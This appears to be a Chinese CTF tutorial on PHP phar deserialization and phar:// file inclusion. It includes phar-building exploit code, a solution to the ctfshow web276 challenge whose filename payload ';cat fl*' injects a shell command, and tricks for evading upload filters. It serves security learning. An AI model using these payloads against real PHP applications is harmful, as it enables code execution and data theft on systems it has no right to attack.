

[Phar的文件包含与反序列化 · GitBook](https://j7ur8.github.io/WebBook/PHP/Phar%E7%9A%84%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E4%B8%8E%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.html)
[利用 phar 伪协议进行文件包含_phar文件包含-CSDN博客](https://blog.csdn.net/m0_73612768/article/details/134209155)
https://paper.seebug.org/680/

注意：本环境在docker中

# 0x01 phar文件

## 1.1 知识储备

phar文件是php中的与压缩包类似的文件，有点像java中的jar包。

利用phar文件会以序列化的形式存储用户自定义的meta-data这一特性，拓展了php反序列化漏洞的攻击面。该方法在**文件系统函数**（file_exists()、is_dir()等）参数可控的情况下，配合**phar://伪协议**，可以不依赖unserialize()直接进行反序列化操作。 也就是说利用phar文件我们可以在没有unserialize函数时利用反序列化漏洞。（存在文件操作函数时）

## 1.2 phar文件结构

1. a `stub`

可以理解为一个标志，格式为`xxx<?php xxx; __HALT_COMPILER();?>`，前面内容不限，但必须以`__HALT_COMPILER();?>`来结尾，否则phar扩展将无法识别这个文件为phar文件。

换言之：phar伪协议识别phar文件靠的是 **`stub`**

2. a `manifest` describing the contents

phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以**序列化**的形式存储用户自定义的meta-data，**`这是上述攻击手法最核心的地方，因为mate-data有我们自己输入，且可以反序列化。`**



3. the file `contents`

被压缩文件的内容。

4. [optional] a `signature` for verifying Phar integrity (phar file format only)

签名，放在文件末尾，格式如下：


# 0x02 漏洞原理分析

phar反序列化的原因就是因为，其中mate-data部分是由我们自己控制，并且会自动反序列化。而当我们用phar://伪协议读取phar文件时，会自动解压缩也就是会反序列化，此时就会触发反序列化漏洞。

# 0x03 利用条件

- phar文件要能够上传到服务器端。(存在文件上传点)
    
- 存在`__destruct`,`__wakeup`魔术方法作为跳板（靠魔术方法才能在反序列化时执行相应操作）
    
- 存在相关[函数](https://blog.zsxsoft.com/post/38)函数,并且参数可控，`:`、`/`、`phar`等特殊字符没有被过滤。（需要phar伪协议读取文件，但是也存在其他伪协议）
    

# 0x04 受影响的函数列表

下面函数在通过`phar://`伪协议解析phar文件时，都会将meta-data进行反序列化


# 0x05 漏洞利用

## 5.1 生成phar文件

```PHP
<?php
class TestObject {}

@unlink("phar.phar");                  // 删除旧的 phar 文件（如果存在）

$phar = new Phar("phar.phar");         // 创建一个新的 phar 对象，文件名必须以 .phar 结尾
$phar->startBuffering();               // 开始缓冲（准备写入 phar 内容）

$phar->setStub("<?php __HALT_COMPILER(); ?>");  // 设置 stub（文件头部的启动代码）

$o = new TestObject();                 // 实例化一个对象
$phar->setMetadata($o);                // 把对象放到 phar 的 metadata 区域（存入 manifest）

$phar->addFromString("test.txt", "test"); // 向 phar 添加一个文件 test.txt，内容为 "test"

// phar 内部会自动计算签名（默认是 SHA1）
$phar->stopBuffering();                // 停止缓冲并写入文件
?>
```

生成phar文件需要把php.ini中的Phar.readonly改为Off，默认为On。


生成的Phar文件就是这样。中间mate-date是我们自定义的，并且是序列化字符串

## 5.2 上传文件

我们可以对我们生成的phar文件进行上传。

这里php识别phar文件只要就是靠的**stub中的****`__HALT_COMPILER()`****部分，**所以上传文件时我们可以随意修改文件后缀。

还有添加十六进制文件头

**做法就是**在`__HALT_COMPILER()`前面加，**这前面加什么都无所谓


当我们执行这个脚本后（区别就是stub里面加了一个头）

可以看到右边`<?php`前面有一个十六进制头，我们用file命令看一下这个文件


看到系统认为他是一个GIF文件，这样可以绕过一些过滤。

## 5.3 利用方式


可以看到利用phar伪协议读取的时候触发了反序列化，执行了析构函数。

# 0x06 phar文件包含

**phar 伪协议无论读取什么文件，都会将其视为压缩包进行解压缩，然后作为** **php** **代码执行，在文件上传类漏洞中经常被用到。**

所以我们可以创建一个可以被解析的文件（确保最后服务器可以读到这个文件，例如假如服务器会自动加上.jpg后缀的话我们就创建一个jpg文件，这样最后解压后能读到该文件）

这里讲的不是很清楚，可以看一下学长的文章：[利用 phar 伪协议进行文件包含_phar文件包含-CSDN博客](https://blog.csdn.net/m0_73612768/article/details/134209155)

这里用zip协议应该也是可以的

## 演示

流程就是，有一个文件包含页面，我们就不来文件上传了，直接默认已经把zip文件上传到服务器，用phar://来包含。看看效果。

```php
<?php phpinfo(); ?>
```

```php
<?php   
include($_GET['file'])
?>
```


看到利用成功，说明phar伪协议把`shell.zip`解压，并且读取了其中的`shell.txt`

  
# 0x07phar反序列化例题

既然很多函数可以触发phar反序列化，那么接下来就要实际利用该漏洞

**漏洞利用条件**

1. phar文件要能够上传到服务器端。

2. 要有可用的魔术方法作为“跳板”。
 
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤


以一个demo来说明

ctfshow web276 phar反序列化+条件竞争

```php
<?php
class filter{
    public $filename;
    public $filecontent;
    public $evilfile=false;
    public $admin = false;

    public function __construct($f,$fn){
        $this->filename=$f;
        $this->filecontent=$fn;
    }
    public function checkevil(){
        if(preg_match('/php|\.\./i', $this->filename)){
            $this->evilfile=true;
        }
        if(preg_match('/flag/i', $this->filecontent)){
            $this->evilfile=true;
        }
        return $this->evilfile;
    }
    public function __destruct(){
        if($this->evilfile && $this->admin){
            system('rm '.$this->filename);
        }
    }
}

if(isset($_GET['fn'])){
    $content = file_get_contents('php://input');
    $f = new filter($_GET['fn'],$content);
    if($f->checkevil()===false){
        file_put_contents($_GET['fn'], $content);
        copy($_GET['fn'],md5(mt_rand()).'.txt');
        unlink($_SERVER['DOCUMENT_ROOT'].'/'.$_GET['fn']);
        echo 'work done';
    }
    
}else{
    echo 'where is flag?';
}
```

发现可以通过 file_put_contents 写 phar 文件，然后题目中 file_put_contents 第一个参数可控，那么我们可以使用 phar:// 协议，通过 $content 传入 phar 数据，这样在 PHP 通过 phar:// 协议解析数据时，会将 meta-data 部分进行反序列化

不过题目会删除文件，所以需要在删除文件前执行文件进行以上操作，因此要用到条件竞争，即生成了 phar 文件，在极短时间内文件是存在的，因为执行到 unlink 函数前还有一个 copy 文件操作，磁盘 io 是需要一定时间的。只要我们不断在写入 phar 文件，那么这个文件就可以断断续续访问到

phar构造如下，会在当前目录生成`evil.phar`文件

```php
<?php
class filter 
{
    public $filename = ';cat fl*';
    public $evilfile = true;
    public $admin = true;
}

// 后缀必须为phar
$phar = new Phar("evil.phar");
$phar->startBuffering();
// 设置 stub
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new filter();
/**
 * 将自定义的 meta-data 存入 manifest
 * 这个函数需要在php.ini中修改 phar.readonly 为 Off
 * 否则的话会抛出 
 * creating archive "***.phar" disabled by the php.ini setting phar.readonly 
 * 异常.
 */
$phar->setMetadata($o);
// 添加需压缩的文件
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

?>
```

条件竞争

# 0x08 bypass

1. 当phar://被过滤或不能以此开头，可以使用其他协议

```Plain
compress.bzip2://phar://
compress.zlib://
php://filter/resource=phar:///test.phar/test.txt
```

2. 文件上传不允许上传phar文件时，可以修改文件后缀或增加十六进制头（添加stub时添加）。

3. 绕过__HALT_COMPILER特征检测

 gzip命令打成gz压缩包